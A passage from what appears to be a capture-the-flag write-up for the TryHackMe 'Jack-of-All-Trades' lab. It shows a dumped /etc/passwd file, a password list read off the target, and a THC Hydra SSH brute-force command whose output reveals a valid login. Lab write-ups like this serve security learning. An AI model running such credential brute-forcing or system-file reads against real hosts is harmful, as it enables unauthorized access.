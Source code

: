 ```
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
uuidd:x:104:109::/run/uuidd:/bin/false
Debian-exim:x:105:110::/var/spool/exim4:/bin/false
messagebus:x:106:111::/var/run/dbus:/bin/false
statd:x:107:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:108:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
jack:x:1000:1000:jack,,,:/home/jack:/bin/bash
```

We also note a file with a password list:

```
www-data@jack-of-all-trades:/home$ cat jacks_password_list
cat jacks_password_list
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
```

Let's try with `THC Hydra`:

```
root@kaligra:/home/joshua/thm/Jack-of-All-Trades# hydra -l jack -P 21_passw_list ssh://10.10.83.56:80
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-01 17:53:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.83.56:80/
[80][ssh] host: 10.10.83.56   login: jack   password: ITMJpGGIqg1jn?>@
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-01 17:53:19
```
